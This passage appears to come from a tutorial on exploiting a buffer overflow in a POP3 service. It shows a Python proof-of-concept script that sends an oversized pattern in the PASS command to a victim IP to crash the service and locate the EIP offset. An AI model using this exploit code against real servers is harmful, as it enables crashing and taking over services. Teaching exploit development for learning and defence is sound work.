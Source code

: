 Then we copy this string over to our "exploit". Replace the "< PATTERN_HERE >" section.

{{< highlight python >}}
#!/usr/bin/python3

# Import of the socket library to connect to the POP3 service
import socket

# Victim IP and Port
host = "192.168.1.14"
port = 110

# POC Buffer
buffer = b' <PATTERN_HERE> '

# Build a TCP SOCKET (stream) and use it to connect to victim IP & Port  
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((host, port))
data = s.recv(1024)
print(data)

# Send USER command with Username x41
s.send(b'USER x41\r\n')
data = s.recv(1024)
print(data)

# Send PASS command with our buffer
s.send(b'PASS ' + buffer + b'\r\n')
data = s.recv(1024)
print(data)

# Close connection
s.close()
{{< / highlight >}}

The program crashes instantly. We can copy now the value of "EIP" from "OllyDbg" and give it a tool called `pattern_offset`.
This tool can now calculate at which position in the created pattern this value is found.

![pattern-offset](pattern-offset.png)
